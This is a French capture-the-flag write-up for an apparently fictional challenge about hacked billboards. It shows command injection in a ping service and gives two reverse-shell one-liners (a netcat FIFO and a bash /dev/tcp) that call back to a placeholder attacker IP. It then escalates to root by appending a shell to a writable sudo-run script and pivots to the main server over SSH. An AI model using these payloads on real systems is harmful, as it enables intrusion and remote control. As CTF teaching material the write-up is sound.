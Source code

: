 # Campagne d'influence

> La société nationale des transports listembourgeois nous a contacté, l'intégralité de leurs panneaux
publicitaires on été piratés et ils ne savent pas comment ! Ils avaient pourtant bien sécurisé leur serveur principal avec une connexion SSH robuste.
Tentez de reproduire l'attaque menée par la blackout society, tout ce que vous a fournis la SNTL, c'est ce endpoint de panneau publicitaire : https://esaipctf:8080



## Reconnaissance

En se connectant au challenge, on tombe sur cette page qui semble être notre panneau publicitaire :

![](./main_pannel.png)

On regarde un peut les autres ports qui nous ont été attribués et on arrive sur cette page :

![](./ping_test.png)

C'est un service de test de disponibilité, ici la première chose qu'on peut tenter c'est de ping avec une injection de commande, le retour de la commande devrait s'afficher sur la page

![](./injected.png)

Bingo ! Notre application est bien vulnérable à l'injection de commande, maintenant il est l'heure de crafter un petit payload qui va bien pour avoir un shell.

## Revshell

On se rend sur notre service de génération de shell préféré (dans mon cas https://www.revshells.com/) et on prépare sa payload : 

```bash 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <MON_IP> <MON_PORT> >/tmp/f
```

![](./RCE.png)

Ensuite je setup mon listener sur mon VPS, NGROK, ou tout autre machine que le service de ping peut atteindre : 

```bash
nc -lvnp 4444
```

![](./shell.png)

Nous avons un premier shell.

## Privesc

En qualité de joueur de CTF invétéré, notre premier réflexe quand on arrive sur un système est de vérifier tout vecteur d'élévation de privilège simple, c'est ce que nous allons tester ici : 

```bash
sudo -l
```

Ici l'option "-l" (pour list) va nous permettre de vérifier si nous pouvons exécuter un script ou un binaire en tant que sudo.

![](./sudo.png)

Comme prévu, il y a bien un script exécutable en tant que sudo, rendons nous dans le répertoire qui contient ce script.

![](./scripts.png)

On y trouve deux scripts, f.sh et run.sh, intéressons nous à run.sh : 

```bash
#!/bin/bash

echo "Starting the media pull and forward process..."

/bin/bash /scripts/f.sh

echo "Media processing completed."
```
Ce script est uniquement là pour appeler f.sh, qui lui semble contenir la vraie fonctionnalité, allons donc voir :

```bash
#!/bin/bash

MEDIA_DIR="/app/tempmedia"
mkdir -p ${MEDIA_DIR}

MAIN_SERVER="root@main-server"
REMOTE_MEDIA_PATH="/usr/src/app/media/*"

SSH_KEY="/root/.ssh/id_rsa"

scp -i ${SSH_KEY} -P 22 -o StrictHostKeyChecking=no ${MAIN_SERVER}:${REMOTE_MEDIA_PATH} ${MEDIA_DIR}/
```

Ce script se connecte au serveur principal pour aller chercher un média à l'aide d'une clé SSH contenue dans ```/root/.ssh```, si nous avons la possibilité d'injecter du code dans un des deux scripts nous pourrions avoir un shell root étant donné que l'on peut exécuter run.sh en sudo et que run.sh fait appel à f.sh.

![](./check_priv.png)

En vérifiant les droits des fichiers on voit que l'utilisateurs a le droit d'édition sur f.sh, c'est parfait pour nous ! 

On va pouvoir injecter un deuxième shell, en utilisant bash cette fois : 

```bash
sh -i >& /dev/tcp/<MON_IP>/<MON_PORT> 0>&1
```

Pour l'injecter dans mon f.sh, on fait un echo append : 

![](./append.png)

Ensuite plus qu'à exécuter run.sh en sudo et boom on est root :)

![](./root.png)

## Pivoting

Bon on est root, maintenant que faire ? Dans f.sh ça parlait de ssh et de main-server, il serait judicieux d'aller vérifier le contenu de /root/.ssh.

![](./ssh_known.png)

On a un fichier known_hosts qui peut potentiellement nous conduire au serveur principal.

![](./known.png)

On a une IP ! On va pouvoir tenter de s'y connecter : 

![](./main_serv.png)

Nous voici sur le server principal en root qui plus est !

Il ne nous reste plus qu'a récupérer notre flag à et récupérer notre indice pour désamorcer la bombe :D

![](./the_end.png)

```FLAG : ECTF{b3w4r3_0f_p4ss1ng_tr41n}```
